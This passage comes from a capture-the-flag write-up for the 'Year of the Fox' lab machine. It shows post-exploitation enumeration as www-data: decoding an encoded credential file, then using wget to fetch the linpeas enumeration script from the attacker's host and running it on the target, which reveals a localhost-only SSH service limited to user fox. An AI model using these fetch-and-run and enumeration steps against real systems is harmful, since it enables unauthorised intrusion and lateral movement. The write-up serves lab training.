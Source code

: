 By listing `/home` directory, we can see the users we found in the beginning: `fox` and `rascal`. No need to say that we need to move laterally.

I can remember that there was a file in the web directory named `creds2.txt`. It is an encoded string:

~~~
www-data@year-of-the-fox:/var/www/files$ cat creds2.txt
LF5GGMCNPJIXQWLKJEZFURCJGVMVOUJQJVLVE2CONVHGUTTKNBWVUV2WNNNFOSTLJVKFS6CNKRAX
UTT2MMZE4VCVGFMXUSLYLJCGGM22KRHGUTLNIZUE26S2NMFE6R2NGBHEIY32JVBUCZ2MKFXT2CQ=
~~~

I decoded it first from base32 and then base64, and got a hash which doesn't seem to be useful:

~~~
www-data@year-of-the-fox:/var/www/files$ echo "LF5GGMCNPJIXQWLKJEZFURCJGVMVOUJQJVLVE2CONVHGUTTKNBWVUV2WNNNFOSTLJVKFS6CNKRAXUTT2MMZE4VCVGFMXUSLYLJCGGM22KRHGUTLNIZUE26S2NMFE6R2NGBHEIY32JVBUCZ2MKFXT2CQ=" | base32 -d | base64 -d
c74341b26d29ad41da6cc68feedebd161103776555c21d77e3c2aa36d8c44730  -
~~~

## Hidden SSH

After not finding anything useful, I uploaded `linpeas` to the target machine using a python server on my machine (`python3 -m http.server 80`) and `wget` on the target. Then I marked it as executable and ran it:

~~~
$ cd /tmp
$ wget http://<YOUR IP>/linpeas.sh
$ chmod +x linpeas.sh
$ ./linpeas.sh
~~~

linpeas result shows an SSH service on port 22 which is only available to localhost:

~~~
tcp        0      0 127.0.0.1:22            0.0.0.0:*               LISTEN      
~~~

Checking `/etc/ssh/sshd_config` confirms this and also tells us that only user `fox` can connect to it:

~~~
www-data@year-of-the-fox:/etc/ssh$ cat sshd_config

[REDACTED]

#Port 22
#AddressFamily any
#ListenAddress 0.0.0.0
#ListenAddress ::

[REDACTED]

AllowUsers fox
~~~
